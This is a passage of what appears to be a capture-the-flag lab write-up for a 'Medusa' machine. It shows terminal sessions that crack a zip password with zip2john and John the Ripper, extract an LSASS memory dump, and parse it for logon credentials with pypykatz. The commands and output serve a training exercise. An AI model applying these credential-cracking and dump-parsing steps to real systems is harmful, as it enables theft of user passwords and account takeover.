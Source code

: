 ```bash

<SNIP>
```
We can use zip2john to extract the password hash from the zip file. This password hash can then be cracked using John the Ripper.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ zip2john old_files.zip > hashes.txt

┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ john hashes.txt -wordlist:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 12386830 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
medusa666        (old_files.zip/lsass.DMP)     
1g 0:00:02:51 DONE (2024-09-12 17:38) 0.005835g/s 33031p/s 33031c/s 33031C/s meeker75..medabe15
Use the "--show" option to display all of the cracked passwords reliably
Session completed.  
```
With this password, we can decompress the zip file.
```bash
┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$7z e old_files.zip

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=C.UTF-8 Threads:2 OPEN_MAX:1024

<SNIP> 

? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? y

Enter password (will not be echoed):
Everything is Ok

Size:       34804383
Compressed: 12387024

┌──(pentester㉿kali)-[~/Medusa/Misc Files]
└─$ls
custom-list.txt  hashes.txt  lsass.DMP  old_files.zip
```
The extracted file seems to be an LSASS dump file. The Local Security Authority Subsystem Service (LSASS) is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system. It verifies users logging on to a Windows computer or server, handles password changes, and creates access tokens. When the memory of this process is dumped, the dumped file can be use to extract the credentials of all logged in users.  Also, when WDigest authentication is activated there is a possibility of reading passwords in plain text from the LSASS process memory. We can extract credentials from this dump file using **pypykatz**.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Medusa/Misc Files]                      
└─$pypykatz lsa minidump lsass.DMP                                               
INFO:pypykatz:Parsing file lsass.DMP                                                      
FILE: ======== lsass.DMP =======                                                 
== LogonSession ==                                                               
authentication_id 2261421 (2281ad)                                        
session_id 18                                                                                           
<SNIP> 

logon_time 2023-01-17T13:56:09.715430+00:00
sid S-1-5-21-1556941724-2101079873-2087351601-1004
luid 845877
```
